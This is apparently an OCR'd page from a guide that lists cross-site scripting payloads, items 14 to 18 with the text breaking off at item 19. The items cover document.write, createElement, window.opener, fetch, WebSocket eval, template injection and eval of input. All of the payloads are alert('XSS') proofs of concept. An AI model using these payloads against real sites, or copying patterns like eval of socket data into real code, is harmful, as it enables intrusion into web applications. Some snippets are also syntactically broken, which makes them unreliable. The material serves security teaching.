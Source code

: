 
Continue to refine your understanding of XSS vectors and stay updated on the latest techniques!

Here’s a further expansion on advanced XSS techniques and payloads:

Advanced XSS Techniques (Continued)

14. Exploiting the document Object

Using document.write with Dynamic Content:

<script>var userInput = "<script>alert('XSS')</script>"; document.write(userInput);</script>

Manipulating document.createElement:

var script = document.createElement('script');
script.text = "alert('XSS')";
document.body.appendChild(script);


15. Cross-Domain Techniques

Using window.opener:

In a pop-up, access the parent window.


window.opener.alert('XSS');

Exploiting CORS Misconfigurations:

Sending malicious requests from an untrusted domain.



16. Exploiting Web APIs

Fetch API with Malicious Input:

fetch('http://example.com/api?param=<script>alert("XSS")</script>');

Using WebSockets:

var ws = new WebSocket('ws://example.com/socket');
ws.onmessage = function(event) { eval(event.data); };


17. Template Injection

Exploiting Templating Engines:

If the application uses a templating engine that evaluates unescaped input:


{{ "<script>alert('XSS')</script>" }}


18. Exploiting Dynamic Rendering

Using JavaScript Variables:

var userInput = "<script>alert('XSS')</script>";
eval(userInput);


19. Local Storage and Session Storage
